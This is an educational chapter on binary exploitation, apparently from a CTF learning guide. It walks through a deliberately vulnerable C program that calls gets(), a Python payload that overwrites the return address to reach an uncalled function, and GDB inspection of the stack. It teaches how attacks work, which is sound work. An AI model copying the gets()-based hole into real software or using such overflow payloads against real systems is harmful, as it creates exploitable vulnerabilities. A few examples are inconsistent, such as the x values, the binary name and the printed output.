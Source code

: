
== Binary Exploitation

Get ready for binary exploitation. We use C to explain binary exploitation because it is a language very prone to have vulnerabilities, however, other languages have similar vulnerabilities.

=== A hack example!

A hack is not necessarily a cyberattack. It is just a clever way to do something, in our context, on a computer. For example, how would you make a program to print the smallest of two numbers without using an if statement? This sounds complicated when you first hear it, but look at the following bit hack! Make a small program in C copying this code:


[source, c]
#include <stdio.h>
int main(int argc, char **argv)
{
    int x=2;
    int y=5;
    int result=y^((x^y)&-(x<y));
    printf("this is the smallest number %d \n", result);
    return 0;
}

That was fantastic! What is happening here? Keep in mind the results of the following operations:

[source, c]
AND
1 & 0 = 0
0 & 0 = 0
1 & 1 = 1
0 & 1 = 0

[source, c]
XOR
1 ^ 0 = 1
0 ^ 0 = 0
1 ^ 1 = 0
0 ^ 1 = 1

Now, we have y=5, x=9.Let’s analyze each part of:


y ^ ( ( x ^ y ) & - ( x < y ) )

In the part highlighted in bold:


y ^ ( ( x ^ y ) & - *( x < y )* )

x < y is false, in c false is represented as a 0, that in a byte would look like this: 00000000

-0, es 0, so it keeps being 00000000

So, -*( x < y )* is 0. So far we would have

y ^ ( ( x ^ y ) & *0* )

Now

y ^ ( *(x^y)* & 0 )

*( x ^ y )* & 0 is 0 , because any_value & 0, is still 0

So we get to

y ^ ( *0* )

This is simply y ^ 0 , when you take any value and do XOR with zero, it is like doing nothing!

So we get to *y* which is the smallest number (cool !!!!!!)

That was amazing. That is a beautiful hack! It is actually called a bithack! In a computer, this operation executes much faster than an "if" statement. In most of the programs you don´t need to execute an operation that fast to comply with the functionality you need, but in some cases that is needed.

Let's say that a hack could be simply a clever thing. Now, what is an exploit?

It is an attack on a computer program. If a computer program has a vulnerability, a hacker can take advantage of such a vulnerability to make the program do something different from the original purpose of the program. Taking advantage of a vulnerability successfully, it is called an exploit.

=== Stack overflow attack

By this point you should already know how to use the terminal, compile programs and have some understanding of C programming. Create the following program in the shell server, and name it vuln1.c:

[source, c]
#include <stdio.h>
#define BUFSIZE 4
void win()
{
    puts("If I am printed, I was hacked! because the program never called me!");
}
void vuln()
{
    puts("Input a string and it will be printed back!");
    char buf[BUFSIZE];
    gets(buf);
    puts(buf);
    fflush(stdout);
}
int main(int argc, char **argv)
{
    vuln();
    return 0;
}

You can see that the function win() is never called in the program. Therefore, the message that it prints should never be printed. right?

Compile the program using:

gcc vuln1.c -o vuln1 -fno-stack-protector -no-pie

Now run the program using:

&#46;/vuln1

You can input a string, and it will print it back. For instance, if you input "HelloPicoCTF", it should show:

Input a string and it will be printed back!

[source, c]
HelloPicoCTF
HelloPicoCTF

The program did what it was written for. Now, we are going to send a particular string to the program using python. You can run a single line of python in the command using the flag -c, and enclosing the line of code between single quotes. In the terminal you can pass the output of one command as the input to other command using the pipe, which is this character "|". In the following command we are printing something in python, and passing that to the C program we just compiled.

[source, python]
python3 -c 'print("hello world!")' |./v1

You should see "hello world!" printed back to the terminal right after the command. Note that in python you can  repeat the same character if you multiply it by a number, so 128*"@" is simply a string composed by 128 "@" repeated. For example if you run:

[source, python]
python3 -c 'print(10*"@")'

You should see the output:

[source, python]
AAAAAAAAAA

 Now we are going to send a string that is composed by 128 characters repeated, concatenated to some bytes.

[source, python]
python3 -c 'print(128*"@"+"\x20\xe0\xff\xff\xff\x7f\x00\x00\xb7\x05\x40\x00")' |./v1

As result you will see:

[source, text]
If I am printed, I was hacked! because the program never called me!
Segmentation fault (core dumped)

What just happened? We simply sent a string, and a function that is never called in the program was called… We can send some particular input to the program to break it and make it do something that we want. That "particular input" you send to a program in the security jargon is called the "*payload*".

You just hacked a very simple binary. But... what happened on the inside? Why?  A very rough explenation, is that when you call a function, the computer needs to know how to come back to continue executing the code that called it after the function finishes its execution. The address of the piece of code that you should continue on after the function call (you do not see this in the source code), is called the return address. Since the program is not checking the boundaries of the input in the C program we made, you can overwrite the place in which the return address is stored! Let’s understand that better so you can manipulate similar exploits at your will.

=== What you need to know for a binary exploit

The famous Stack Overflow is a type of Buffer Overflow, an anomaly that overwrites a memory sector where it should not. It causes security problems by opening doors for malicious actions to be executed. To understand it, it is necessary to have an idea of how the memory of a computer works.

==== Memory 

RAM means "random access memory". It is called Random Access because you can access any part of it directly, without having to pass first for other regions, as it was necessary at some point in history. For example, computers used to have a magnetic tape in which an item of data could only be accessed by starting from the beginning of the tape and finding an address sequentially. In a RAM we can go to any part of it immediately!

Conceptually, a RAM is a grid with slots that can contain data. Let's imagine we have a RAM of only 5 slots. We could name each slot by a number, starting at 0, so it would look like this:


[.text-center]
.Imagined memory
image::images/4image36.png[image,width=198,height=222]


Now, if we want to put the word "HELLO" in our imaginary memory, we could put each character of "HELLO" in each slot, like this:

[.text-center]
.Imagined memory containing 'HELLO'
image::images/4image37.png[image,width=198,height=222]

The numbers we used to identify each slot of the memory are called addresses. If we ask: what character is in the address 1? The answer would be the character ‘E’. A real memory from a computer nowadays can have billions of addresses. Normally, addresses are shown in hexadecimal. For example, the address "255" would normally be shown as "0xFF".

In a program, the memory is used in a certain way to be able to do all that the program can do, and the program itself is present in memory when it is being executed. The memory is organized in the following sections:

When we compile a C source code, this is converted to machine code also known as binary. When a program is run, this machine code is placed in the code section. The code section holds only machine code, not the source code we know from C for example. The machine code is a set of instructions that the processor of a computer can understand. The computer will execute the instructions sequentially and while doing that will access other parts of memory to read data and output results.

A program has several sections, but for now, let's keep in mind the following three sections:

* Data section
* Heap
* Stack

In the data section, static and global variables are placed. This variables always exist when the program is being run, in contrast to local variables that disappear when a function finishes and returns the result.

In the heap is placed the memory allocated dynamically. For example, when you use malloc in C to allocate a buffer, that buffer is allocated on the heap. It is called dynamic allocation because the program allocates memory when is already running and executing the particular instruction for malloc. In the code you write you can also decide to deallocate a buffer of memory that you previously allocated. So, it is called dynamic because the programmer can allocate it and deallocate a chunk of memory of a desired size.

In the Stack segment, are placed the local variables, function parameters and return addresses. What is a return address? When we call a function, the address of the next instruction has to be stored somewhere so the program knows where to comeback after the function is finished. We call this address the "return address". A function can be called in different parts of a program, so this return address will be different depending on where the program calls the function.

=== Example of Execution of a program 

The execution of a program and its memory is controlled by processor registers, usually called simply registers. These are a very small and fast kind of memory that is attached to the processor. A register can store 4 or 8 bytes, depending on the processor. A processor only has a few registers. Depending on the kind of processor, the registers might differ. But we will take a look at the ones that are generic to most processors and will let us understand later the most common binary exploits.

To see a real example in action we can use GDB, a software that allows us to see the execution of each part of a programs and its memory step by step. This kind of software is called a debugger. When a binary program is running and we debug it, we can see in detail what the program is doing in memory by analyzing the *Assembly*. What is the Assembly? It is a low level language that can be used to show what each instruction from the machine code does. GDB can generate assembly from the machine code in memory while we are debugging the program so we can easily see what the machine code is doing.

==== GDB, Assembly and machine code

In the shell server, GDB is already installed, so you can run

[source, text]
gdb ./vuln1

You should see something like this:

[source, text]
GNU gdb (Ubuntu 8.1-0ubuntu3) 8.1.0.20180409-git
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law. Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from vuln1...(no debugging symbols found)...done.
(gdb)

Now, input "run" and press enter. Remember to press enter after using a command. The program "vuln1" will be executed, so you can enter any string and it will print it back, as it normally does the program "vuln1". You should see something like this if the string you input is "HelloPicoCTF":

[source, text]
(gdb) run
Starting program: /vuln1
Input a string and it will be printed back!
HelloPicoCTF
HelloPicoCTF
[Inferior 1 (process 95000) exited normally]
(gdb)

If you input "r" instead of "run", it will do the same because "r" is the GDB abbreviation for "run". If you do the experiment you should see  the same:

[source, text]
(gdb) r
Starting program: /vuln1
Input a string and it will be printed back!
HelloPicoCTF
HelloPicoCTF
[Inferior 1 (process 95000) exited normally]
(gdb)

To exit from GDB, you can input "quit" and press enter. Also, you could input only "q" and it will quit too. In several GDB commands, you can also input the first character of the command, and GDB will understand.

Now, open GDB again to debug "vuln1" with the same command we used previously:

[source, text]
gdb ./vuln1

But now, before running it using "run", we want to stop at the beginning of the function "vuln()". To do this, you can set a breakpoint at vuln(). Setting a breakpoint, simply means that the execution of the program will pause in the instruction you set the breakpoint. By running "break vuln" or "b vuln", a breakpoint will be set at the beginning of vuln. We will see this:

[source, text]
(gdb) b vuln
Breakpoint 1 at 0x4005ce

IMPORTANT: the addresses you see might be different, that is ok.

What does it mean "Breakpoint 1 at 0x4005ce" ? Do you remember that there is a segment of the memory in which the machine code is placed? In the memory address "0x4005ce" the machine code of "vuln()" begins. Input "r" to start the execution of the program and you will see:

[source, text]
(gdb) r
Starting program: /home/samuel/Desktop/problems/vuln1
Breakpoint 1, 0x00000000004005ce in vuln ()
(gdb)

"Breakpoint 1, 0x00000000004005ce in vuln ()" means that the first break point we have set, was established at address "0x00000000004005c", which is the same address as "0x4005c"; An address is a number in this case, so zeros at the left cause no effect. Note that in other cases, zeros at the left can have an effect if what we are reading is not being interpreted as a number.

===== Processor registers

A program is made up of several instructions that are executed sequentially. The processor of the computer has an integrated and very small memory different from RAM, called the "registers". A processor only has a few registers. Each register can hold only 8 bytes in a 64 bit processor, and 4 bytes in a 32 bit processor. A 32 bit program can run on a 64 bit processor, but 64 bit program cannot run on a 32 bit processor. One of the registers is called the Instruction Pointer, abbreviated as IP, that keeps track of the part of the program that is currently being executed. In a 64 bit program, we can print the value of this register in GDB using "x $rip":

[source, text]
(gdb) x $rip
0x4005ce <vuln+4>: 0x80c48348
(gdb)

Note that the first part of the line shown is "0x4005ce", this is exactly where the breakpoint was placed, so the IP naturally has that value because we made the program pause there. Then we have "<vuln+4>", do you remember we said that by setting a breakpoint at a function it would pause at the beginning of the function? To be more precise, a breakpoint on a function is usually placed 4 bytes after the beginning of the machine code of what is considered the function. That’s why the "+4". Later we will understand why it’s done like this. The remaining part, "0x80c48348", is the actual content at the address "0x4005ce". That content is a part of the machine code of the "vuln()" function.

To show the whole machine code of the function, showing each instruction on each address and its machine code, we can run "disas /r":

 
[source, assembly]
(gdb) disas /r
Dump of assembler code for function vuln:
0x4005ca <+0>: 55    push %rbp
0x4005cb <+1>: 48 89 e5    mov %rsp,%rbp
=> 0x4005ce <+4>: 48 83 c4 80    add $0xffffffffffffff80,%rsp
0x4005d2 <+8>: 48 8d 3d 27 01 00 00    lea 0x127(%rip),%rdi
0x4005d9 <+15>: e8 c2 fe ff ff    callq 0x4004a0 <puts@plt>
0x4005de <+20>: 48 8d 45 80    lea -0x80(%rbp),%rax
0x4005e2 <+24>: 48 89 c7 mov    %rax,%rdi
0x4005e5 <+27>: b8 00 00 00 00    mov $0x0,%eax
0x4005ea <+32>: e8 c1 fe ff ff    callq 0x4004b0 <gets@plt>
0x4005ef <+37>: 48 8d 45 80    lea -0x80(%rbp),%rax
0x4005f3 <+41>: 48 89 c7    mov %rax,%rdi
0x4005f6 <+44>: e8 a5 fe ff ff    callq 0x4004a0 <puts@plt>
0x4005fb <+49>: 48 8b 05 3e 0a 20 00    mov 0x200a3e(%rip),%rax
0x400602 <+56>: 48 89 c7    mov %rax,%rdi
0x400605 <+59>: e8 b6 fe ff ff    callq 0x4004c0 <fflush@plt>
0x40060a <+64>: 90    nop
0x40060b <+65>: c9    leaveq
0x40060c <+66>: c3    retq
End of assembler dump.
(gdb)

Each line of what was just printed by GDB is organized in three parts. Let’s analyze the following line to introduced machine code and assembly:

0x400602 <+56>: 48 89 c7 mov %rax,%rdi

The left part is the address "0x400602 <+56>". After the address some spaces are shown, then in the middle we find the machine code, that in this case is "48 89 c7". After some other spaces, we find the Assembly, which is "mov %rax,%rdi". Assembly is a low level language that can be directly mapped to the machine code. That’s why GDB can see some machine code in the memory and print for us the assembly that represents. A specific sequence of bytes in the machine code maps to an instruction of assembly. So, when a program is running and in memory is seen the sequence of bytes "48 89 c7" in the code segment, the computer knows that is some specific instruction and the processor has to do a specific action. Right now the intention is not to explain assembly in detail, but just for the sake of this example, know that "mov %rax,%rdi" moves the value of the register "rax" into the register "rdi". While the program is being executed by going forward in the code section of memory where the machine code is located, and it appears the sequence of bytes "48 89 c7", the processor knows that it has to copy the register "rax" into "rdi". Note that in the function, there are two parts in which appears the machine code "48 89 c7" and both have the same assembly.

Now, in this line:

*=>* 0x4005ce <+4>: 48 83 c4 80 add $0xffffffffffffff80,%rsp

do you see the arrow "=>" at the left? That indicates the instruction in which we are. Next to it there is an address, that as expected, has the same value as the Instruction Pointer. Then there is the <+4> which we already explained, followed by the machine code "48 83 c4 80" at the address 0x4005ce… Hold on, what is going on? A few paragraphs ago we said that the machine code at that address was " 0x 80 c4 83 48" when we printed the Instruction Pointer using "x $rip". But now we say it is "48 83 c4 80". If you look closely, these are the same bytes but backwards. Let’s take advantage of this opportunity to explain "little endian".

===== 19.2.1.3 Little endian

In most of the computers we use in everyday life, the numbers are interpreted as little endian. So when you read this from memory:

*48 83 c4 80*

It will be interpreted and shown as this:

*80 c4 83 48*

This is the case only for numbers. Addresses are numbers. In an attack when you want to overwrite an address, you have to consider this and input the bytes of the address backwards so they are interpreted in the correct manner. Why computers do this? There are some reasons and consequences. In fact there are also reasons for using "big endian" which is using the bytes without inverting them. One argument commonly given for supporting little endian, is that some operations are easier to do. For instance, if you have a number, let’s say 255 in decimal, in hexadecimal it would be is 0xff in hexadecimal. If the number is contained in a variable type that takes 4 bytes, for example an "int" in C, it would look like this in memory:

ff 00 00 00

Then, you want to cast it to a type that only takes two bytes, for example a "short" in C. In memory, you can leave the same value without having to move anything, and the "short" would look like this:

ff 00

Now, imagine that we were not using little endian. The type "int" would hold the number like this

00 00 00 ff

And the "short" like this:

00 ff

Note that we had to move the ff, which originally was on the fourth byte, and now it is in the second byte.

In summary, what you should remember for binary exploits, is that if you want to write a number into memory, you have to write its bytes backwards. Also, remember that this is only for numbers. In a hypothetical situation if you want to place in memory the string "HELLO", you can put it in its original order.

In GDB is possible to show a chunk of memory at a specific location using a command such as "x/16xw 0x4005da". This will print 16 words after the address 0x4005da. A word in a 64 bit processor, has 8 bytes, so that command is going to print 64 bytes. Run the command yourself! You should see something like this:

[source, assembly]
(gdb) x/16xw 0x4005ce
0x4005ce <vuln+4>: 0x80c48348 0x273d8d48 0xe8000001 0xfffffec2
0x4005de <vuln+20>: 0x80458d48 0xb8c78948 0x00000000 0xfffec1e8
0x4005ee <vuln+36>: 0x458d48ff 0xc7894880 0xfffea5e8 0x058b48ff
0x4005fe <vuln+52>: 0x00200a3e 0xe8c78948 0xfffffeb6 0x55c3c990
(gdb)

Note that GDB prints each group of 4 bytes as a numbers. Because of little endianess, each of those groups of 4 bytes, is reversed in memory. When using the previous command, no matter what is inside the memory, everything will be printed in reverse for each group of 4 bytes.

//BEGIN EDITING HERE!
===== Function call

When a function is called, the IP moves to wherever the code of the function is located. When the function is finished, the IP moves back to the next instruction to the function call. As we mentioned previously, the address of the next instruction has to be stored somewhere so the program knows where to comeback after the function is finished. We call this address the "return address". The return address is stored in the memory segment refered as the stack. How do we know in which part of the stack? There is a register called the Stack Pointer (SP), that points to the tip of the stack. When a function is called, the stack pointer moves to make room for the return address and new local variables. When the function is finished, the Stack Pointer moves to the original position prior to the function call, making the memory addresses in which the local variables from the function were located free again.

Imagine that we have a toy memory with only a few addresses. Remember that the SP is the Stack Pointer, and the Stack is a region of memory, in this case colored in yellow. Suppose that we have created no local variables or anything on the stack. The stack would look like this:


[.text-center]
.Stack
image::images/6image1.png[image,width=198,height=222]
		

Then we create a local variable, using something like:

[source, c]
int var=4;

After that is executed, the stack would look like in the following image, because by creating a variable we push it into the stack (in this example we are using “<=” as a simple arrow):

[.text-center]
.Stack after pushing 4
image::images/6image2.png[image,width=198,height=222]

Note that when we push a variable into the stack, we subtract one address to the SP, so it points to the new top of the stack. In this case the new SP value will be 16, which means is pointing to the address 16. If we create another local variable like this:

[source, c]
int var=5;

The stack would look like this:

[.text-center]
.Stack after pushing 4 and 5
image::images/6image3.png[image,width=198,height=222] 

And the SP would be equal to 15.

In real life, on a 32 bit Intel architecture, each address contains four bytes. Integers are stored in little endian, and the addresses would have bigger values on a running program because the stack is placed on higher addresses. A piece of the stack that created two integer with values 5 and 4, could look like this (remember that address and memory are usually represented in hex): 

[.text-center]
.More realistic Stack after pushing 4 and 5
image::images/6image4.png[image,width=198,height=222] 
 
Let’s go now to real life on our 64 bit program.

In GDB, set a breakpoint in the function "main" using "b main":

[source, text]
(gdb) b main

And run the program again using "r"

[source, text]
(gdb) r

The program being debugged has been started already.

[source, text]
Start it from the beginning? (y or n) y
Starting program: /vuln1
Breakpoint 2, 0x0000000000400611 in main ()
(gdb)

To show the assembly of the current function in where we are, which is "main", use "disas":

[source, text]
(gdb) disas
    Dump of assembler code for function main:
    0x000000000040060d <+0>: push %rbp
    0x000000000040060e <+1>: mov %rsp,%rbp
 => 0x0000000000400611 <+4>: sub $0x10,%rsp
    0x0000000000400615 <+8>: mov %edi,-0x4(%rbp)
    0x0000000000400618 <+11>: mov %rsi,-0x10(%rbp)
    0x000000000040061c <+15>: mov $0x0,%eax
    0x0000000000400621 <+20>: callq 0x4005ca <vuln>
    0x0000000000400626 <+25>: mov $0x0,%eax
    0x000000000040062b <+30>: leaveq
    0x000000000040062c <+31>: retq
End of assembler dump.

Even if you don’t know assembly, if you look through it, you might guess that "callq 0x4005ca <vuln>" is the function call to "vuln". We will go to that instruction in the debugger. To advance one instruction in GDB we can use "si". Try it, and use "disas" again to see where we are now. You should see something like this:

[source, text]
(gdb) si
    0x0000000000400615 in main ()
    (gdb) disas
    Dump of assembler code for function main:
    0x000000000040060d <+0>: push %rbp
    0x000000000040060e <+1>: mov %rsp,%rbp
    0x0000000000400611 <+4>: sub $0x10,%rsp
 => 0x0000000000400615 <+8>: mov %edi,-0x4(%rbp)
    0x0000000000400618 <+11>: mov %rsi,-0x10(%rbp)
    0x000000000040061c <+15>: mov $0x0,%eax
    0x0000000000400621 <+20>: callq 0x4005ca <vuln>
    0x0000000000400626 <+25>: mov $0x0,%eax
    0x000000000040062b <+30>: leaveq
    0x000000000040062c <+31>: retq
    End of assembler

We could use "si" three times more to get to the instruction in which the function call is made. But this strategy might not be good if we are far away from the function call. Instead, we can set a breakpoint on the memory address of the function call that we see is "0x0000000000400621". To set a breakpoint on a memory address, we also use "b", but we put an asterisk previous to the address like this "b *0x0000000000400621", after pressing enter you should see something like:

[source, text]
(gdb) b *0x0000000000400621
Breakpoint 3 at 0x400621
(gdb)

Now, use "continue" or "c" to continue to the breakpoint:

[source, text]
(gdb) c
Continuing.
Breakpoint 3, 0x0000000000400621 in main ()
(gdb)

Now, verify that we actually get to where we wanted using "disas":

[source, text]
(gdb) disas
    Dump of assembler code for function main:
    0x000000000040060d <+0>: push %rbp
    0x000000000040060e <+1>: mov %rsp,%rbp
    0x0000000000400611 <+4>: sub $0x10,%rsp
    0x0000000000400615 <+8>: mov %edi,-0x4(%rbp)
    0x0000000000400618 <+11>: mov %rsi,-0x10(%rbp)
    0x000000000040061c <+15>: mov $0x0,%eax
 => 0x0000000000400621 <+20>: callq 0x4005ca <vuln>
    0x0000000000400626 <+25>: mov $0x0,%eax
    0x000000000040062b <+30>: leaveq
    0x000000000040062c <+31>: retq
    End of assembler dump.
    (gdb)

At this point, the program is about to execute the function call to "vuln()". Remember that the return address is the next instruction to the function call. Note that If it was the same as the function call, it would return and call the function again and get into an infinite loop

In this case, the return address is "0x0000000000400626", remember this address. If we check the Stack Pointer (SP) right now using "x $rsp" we would see that it points to an address that does not contain the return address yet:


[source, text]
(gdb) x $rsp
0x7fffffffe010: 0xffffe108

If we advance one instruction using "si", we would suddenly be in the first instruction of the function "vuln()":

[source, text]
(gdb) si
0x00000000004005ca in vuln ()
(gdb) disas
Dump of assembler code for function vuln:
=>  0x00000000004005ca <+0>: push %rbp
    0x00000000004005cb <+1>: mov %rsp,%rbp
    0x00000000004005ce <+4>: add $0xffffffffffffff80,%rsp
    0x00000000004005d2 <+8>: lea 0x127(%rip),%rdi # 0x400700
    0x00000000004005d9 <+15>: callq 0x4004a0 <puts@plt>
    0x00000000004005de <+20>: lea -0x80(%rbp),%rax
    0x00000000004005e2 <+24>: mov %rax,%rdi
    0x00000000004005e5 <+27>: mov $0x0,%eax
    0x00000000004005ea <+32>: callq 0x4004b0 <gets@plt>
    0x00000000004005ef <+37>: lea -0x80(%rbp),%rax
    0x00000000004005f3 <+41>: mov %rax,%rdi
    0x00000000004005f6 <+44>: callq 0x4004a0 <puts@plt>
    0x00000000004005fb <+49>: mov 0x200a3e(%rip),%rax
    0x0000000000400602 <+56>: mov %rax,%rdi
    0x0000000000400605 <+59>: callq 0x4004c0 <fflush@plt>
    0x000000000040060a <+64>: nop
    0x000000000040060b <+65>: leaveq
    0x000000000040060c <+66>: retq
    End of

And if we check the SP again:

[source, text]
(gdb) x $rsp
0x7fffffffe008: 0x00400626
(gdb)

Do you remember the return address was "0x0000000000400626"? We can see that the SP points to the address "0x7fffffffe008", and that address contains the return address!

The whole idea of the attack, is to modify the return address, to return at another place. In our attack example at the beginning, we modify it so it returned to the function "win()".

The function gets() in C, simply copies any user input and puts all that in memory, so we simply need to overwrite the return address. As a programmer, never use gets() in C, you would introduce a vulnerability in your program that is very easy to exploit!
